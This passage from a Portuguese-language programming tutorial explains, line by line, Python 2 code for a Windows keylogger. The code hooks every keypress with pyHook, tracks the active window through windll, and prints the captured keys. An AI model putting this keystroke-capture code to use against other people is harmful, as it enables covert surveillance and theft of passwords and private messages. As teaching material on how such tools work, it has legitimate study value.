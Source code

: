 Nas linhas 3, 4 e 5, importamos as classes que fizemos download e instalamos (pyHook e win32clipboard).

usuario   = windll.user32
kernel32 = windll.kernel32
dadosProc    = windll.psapi # funcao para pegar os dados dos processos
telaAtual = None
Nesta parte, criamos algumas variáveis para receber dados de baixo nível, que serão capturados do sistema, como informações do usuário,
 do sistema e dos processos do sistema.

Continuando:

# cria o Hook e registra quando a tecla é pressionada 
tecla         = pyHook.HookManager() # gerenciador do Hook
tecla.KeyDown = teclaPressionada
tecla.HookKeyboard() # executa o hook de todas as teclas pressionadas
pythoncom.PumpMessages() # executa recursivamente
A variável tecla vai receber o gerenciador do Hook e vai fazer a varredura do teclado que será utilizado.

Na linha 5, utilizamos um método da classe pythoncom para que a aplicação rode iterativamente até o usuário fechar a aplicação.

Na linha 3, chamamos a função teclaPressionada quando o usuário teclar. Então, vamos criar a função:

# esta funçao será chamada quando o usuario pressionar uma tecla    
def teclaPressionada(evento):
    global telaAtual   
    # verifica se há mudança de processo
    if evento.WindowName != telaAtual:
        telaAtual = evento.WindowName        
        processoAtual()
# verifica qual tipo de tecla é pressionada
    if evento.Ascii > 32 and evento.Ascii < 127:
        print chr(evento.Ascii),
    else:
        print " <%s> " % evento.Key, # mostra a tecla padrao que foi pressionada
    return True
Na linha 3, recriamos a variável global telaAtual. A seguir é verificado se houve uma mudança de processo ou se novos processos
 foram abertos pelo usuário. Se houve alguma mudança, a função processoAtual() será chamada.

Na linha 9, o bloco if verifica qual tipo de tecla foi pressionada: se foram as teclas de endereço 32 até 127 da tabela ASCII, que são todas as 
teclas do alfabetos ocidental, mais as teclas de caracteres especiais, como por exemplo: +,*,(,=,>,:. Senão será exibida as teclas padrões que 
foram pressionadas, como por exemplo: ENTER, SHIFT, SCAPE, as setas: UP, DOWN, LEFT e RIGHT.

